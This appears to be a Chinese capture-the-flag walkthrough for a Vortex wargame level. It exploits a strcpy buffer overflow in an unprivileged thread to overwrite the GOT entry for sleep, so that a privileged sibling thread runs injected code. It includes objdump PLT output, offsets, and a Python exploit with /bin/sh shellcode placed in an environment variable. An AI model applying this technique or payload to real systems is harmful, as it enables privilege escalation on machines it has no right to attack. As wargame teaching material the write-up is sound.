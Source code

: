<p style="text-indent: 2em;">
  我们发现，这道题首先新开了一个线程，然后丢掉所有权限后，调用了unsafecode，在unsafecode中很明显有个strcpy存在溢出漏洞，采取和上一关相同的方法，修改返回地址，我们可以很容易的使程序运行我们自己的payload，从而产生shell。但是，这个shell对于我们来说是没有意义的，因为程序已经没有了权限。
</p>

<p style="text-indent: 2em;">
  很显然，我们无法在程序丢掉所有权限之前控制住这个程序，那么我们想要获得权限，就只有想办法去利用unsafecode控制住safecode，因为safecode是在丢掉权限之前开启的线程，所以它还有我们所想要的权限。
</p>

<p style="text-indent: 2em;">
  仔细观察会发现，safecode在不停的调用printf、fflush、sleep，那么对于我们而言，最好的办法莫过于利用unsafecode狙击GOT表，由于同一进程中的不同线程共用GOT表，那么我们便可以使得safecode运行到我们设定的payload中去。
</p>

<p style="text-indent: 2em;">
  确认想法后，便开始实现，首先通过gdb，得到unsafecode的返回地址与buffer间需要填充的字符数，为1036。
</p>

<p style="text-indent: 2em;">
  紧接着通过：
</p>

<pre class="brush:bash;toolbar:false">objdump&nbsp;-j&nbsp;.plt&nbsp;-d&nbsp;vortex8</pre>

<p style="text-indent: 2em;">
  得到：
</p>

<pre class="brush:plain;toolbar:false;">08048490&nbsp;&lt;sleep@plt&gt;:
&nbsp;8048490:&nbsp;&nbsp;&nbsp;ff&nbsp;25&nbsp;08&nbsp;a0&nbsp;04&nbsp;08&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;jmp&nbsp;&nbsp;&nbsp;&nbsp;*0x804a008
&nbsp;8048496:&nbsp;&nbsp;&nbsp;68&nbsp;10&nbsp;00&nbsp;00&nbsp;00&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;push&nbsp;&nbsp;&nbsp;$0x10
&nbsp;804849b:&nbsp;&nbsp;&nbsp;e9&nbsp;c0&nbsp;ff&nbsp;ff&nbsp;ff&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;jmp&nbsp;&nbsp;&nbsp;&nbsp;8048460&nbsp;&lt;_init+0x38&gt;</pre>

<p style="text-indent: 2em;">
  那么我们只要把0x804a008处的值改为我们的payload地址即可。
</p>

<p style="text-indent: 2em;">
  利用和前几关相同的方式，我们将payload放在环境变量中，那么，我们获取栈底地址，为0xffffe000。
</p>

<p style="text-indent: 2em;">
  然后，需要注意的是，我们要利用死循环使主线程不会立即结束，给子线程足够的时间去产生shell，那么我们得到攻击程序如下：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python

import&nbsp;subprocess

addr&nbsp;=&nbsp;&#39;x04xddxffxff&#39;
#&nbsp;x68x04xdfxffxff&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;pushl&nbsp;$0xffffdf04
#&nbsp;x8fx05x08xa0x04x08&nbsp;&nbsp;popl&nbsp;(0x0804a008)
#&nbsp;xebxfe&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;jmp&nbsp;self&nbsp;死循环
code&nbsp;=&nbsp;&#39;x68x04xdfxffxff&#39;&#39;x8fx05x08xa0x04x08&#39;&#39;xebxfe&#39;
shellcode&nbsp;=&nbsp;"jx0bXx991xc9Rh//shh/binx89xe3xcdx80"
subprocess.Popen([&#39;/vortex/vortex8&#39;,&nbsp;&#39;x90&#39;&nbsp;*&nbsp;1036&nbsp;+&nbsp;addr],&nbsp;env&nbsp;=&nbsp;{&#39;&#39;&nbsp;:&nbsp;&#39;x90&#39;&nbsp;*&nbsp;500&nbsp;+&nbsp;code&nbsp;+&nbsp;&#39;x90&#39;&nbsp;*&nbsp;500&nbsp;+&nbsp;shellcode}).communicate()</pre>
